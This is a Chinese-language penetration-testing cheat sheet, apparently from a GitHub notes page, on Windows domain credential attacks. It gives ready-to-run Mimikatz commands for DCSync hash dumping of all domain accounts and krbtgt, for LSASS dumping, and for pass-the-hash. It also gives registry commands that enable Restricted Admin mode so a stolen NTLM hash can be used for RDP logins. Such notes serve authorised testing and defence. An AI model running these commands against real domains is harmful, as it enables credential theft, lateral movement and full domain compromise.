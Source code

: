 **DCSync**

Mimikatz 有一个功能（dcsync），利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值。该技术消除了直接从域控制器进行认证的必要性，因为它可以从域管理员环境中属于域的任意系统执行。

运行 DCSync 需要特殊权限。管理员，域管理员或企业管理员以及域控制器计算机帐户的任何成员都能够运行 DCSync 来提取密码数据。请注意，只读域控制器不仅可以默认为用户提取密码数据。
```
privilege::debug
lsadump::dcsync /domain:ffffffff0x.com /all /csv
```

通过使用 /user 参数指定域用户名，Mimikatz 会将该指定用户的所有帐户信息转储包括哈希值。
```
lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt
lsadump::dcsync /domain:ffffffff0x.com /user:test
```

可以直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 密码哈希
```
privilege::debug
lsadump::lsa /inject
```

---

# PTH

在对 Windows 系统进行渗透测试过程中，如果获取目标机器的系统权限，则可以通过 hashdump 的方式获取目标机器历史登录信息，包括用户名和用户明文密码或者用户 hash，如果无法直接获取目标用户明文密码，则可以通过 pth 的方式远程登录目标机器

**受限管理模式**

通过 pth 的方式远程登录有一个限制：受限管理模式(Restricted Admin mode)
- Windows8.1 和 Windows Server 2012(R2)默认支持该功能
- Win7 和 Windows Server 2008(R2)默认不支持该功能，需要安装补丁 KB2871997 和 KB2973351

1. 安装补丁 KB3126593,其原理与下述的修改注册表的原理是一致的
    - https://support.microsoft.com/en-us/help/2973351/microsoft-security-advisory-registry-update-to-improve-credentials-pro

2. 修改注册表
    ```
    HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa

    # 新建 DWORD 键值 DisableRestrictedAdmin，值为 0，代表开启;值为 1，代表关闭
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

    在获取目标系统权限之后，通过 cmd 交互，可以轻松关闭受限管理模式

3. mimikatz 修改注册表

    如果你有一个用户的 NTLM 哈希值，而这个用户有设置注册表的权限，你可以使用 Powershell 来启用它，然后通过 RDP 登录。
    ```
    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
    ```
    ```
    Enter-PSSession -Computer <Target>
    New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0"
    ```
